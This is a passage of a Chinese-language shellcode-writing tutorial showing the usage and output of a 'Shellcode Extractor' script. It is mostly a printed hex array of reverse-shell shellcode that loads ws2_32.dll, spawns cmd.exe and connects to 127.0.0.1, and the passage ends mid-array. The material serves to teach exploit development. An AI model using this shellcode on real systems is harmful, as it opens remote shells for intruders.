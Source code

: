 ### 测试脚本

这部分会简明易懂！如果没有任何参数，运行脚本将会显示如下：

```
Shellcode Extractor by Massimiliano Tomassoli (2015)

Usage:
  sce.py <exe file> <map file>

```

如果你还记得，我们也已经告诉过`VS 2013`的`linker`生成一个映射文件。只调用具有`exe`文件及映射文件路径的脚本。此处是从反向`shellcode`中得到的信息：

```
Shellcode Extractor by Massimiliano Tomassoli (2015)

Extracting shellcode length from "mapfile"...
shellcode length: 614
Extracting shellcode from "shellcode.exe" and analyzing relocations...
Found 3 reference(s) to 3 string(s) in .rdata
Strings:
  ws2_32.dll
  cmd.exe
  127.0.0.1

Fixing the shellcode...
final shellcode length: 715

char shellcode[] =
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\xa8\x03\x01\x01\x81\xf1\x01\x01"
"\x01\x01\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa"
"\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x7b\x02\x05\x05"
"\xb9\x03\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x55\x8b\xec\x83"
"\xe4\xf8\x81\xec\x24\x02\x05\x05\x53\x56\x57\xb9\x8d\x10\xb7\xf8"
"\xe8\xa5\x01\x05\x05\x68\x87\x02\x05\x05\xff\xd0\xb9\x40\xd5\xdc"
"\x2d\xe8\x94\x01\x05\x05\xb9\x6f\xf1\xd4\x9f\x8b\xf0\xe8\x88\x01"
"\x05\x05\xb9\x82\xa1\x0d\xa5\x8b\xf8\xe8\x7c\x01\x05\x05\xb9\x70"
"\xbe\x1c\x23\x89\x44\x24\x18\xe8\x6e\x01\x05\x05\xb9\xd1\xfe\x73"
"\x1b\x89\x44\x24\x0c\xe8\x60\x01\x05\x05\xb9\xe2\xfa\x1b\x01\xe8"
"\x56\x01\x05\x05\xb9\xc9\x53\x29\xdc\x89\x44\x24\x20\xe8\x48\x01"
"\x05\x05\xb9\x6e\x85\x1c\x5c\x89\x44\x24\x1c\xe8\x3a\x01\x05\x05"
"\xb9\xe0\x53\x31\x4b\x89\x44\x24\x24\xe8\x2c\x01\x05\x05\xb9\x98"
"\x94\x8e\xca\x8b\xd8\xe8\x20\x01\x05\x05\x89\x44\x24\x10\x8d\x84"
"\x24\xa0\x05\x05\x05\x50\x68\x02\x02\x05\x05\xff\xd6\x33\xc9\x85"
"\xc0\x0f\x85\xd8\x05\x05\x05\x51\x51\x51\x6a\x06\x6a\x01\x6a\x02"
"\x58\x50\xff\xd7\x8b\xf0\x33\xff\x83\xfe\xff\x0f\x84\xc0\x05\x05"
"\x05\x8d\x44\x24\x14\x50\x57\x57\x68\x9a\x02\x05\x05\xff\x54\x24"
"\x2c\x85\xc0\x0f\x85\xa8\x05\x05\x05\x6a\x02\x57\x57\x6a\x10\x8d"
"\x44\x24\x58\x50\x8b\x44\x24\x28\xff\x70\x10\xff\x70\x18\xff\x54"
"\x24\x40\x6a\x02\x58\x66\x89\x44\x24\x28\xb8\x05\x7b\x05\x05\x66"
"\x89\x44\x24\x2a\x8d\x44\x24\x48\x50\xff\x54\x24\x24\x57\x57\x57"
"\x57\x89\x44\x24\x3c\x8d\x44\x24\x38\x6a\x10\x50\x56\xff\x54\x24"
"\x34\x85\xc0\x75\x5c\x6a\x44\x5f\x8b\xcf\x8d\x44\x24\x58\x33\xd2"
"\x88\x10\x40\x49\x75\xfa\x8d\x44\x24\x38\x89\x7c\x24\x58\x50\x8d"
"\x44\x24\x5c\xc7\x84\x24\x88\x05\x05\x05\x05\x01\x05\x05\x50\x52"
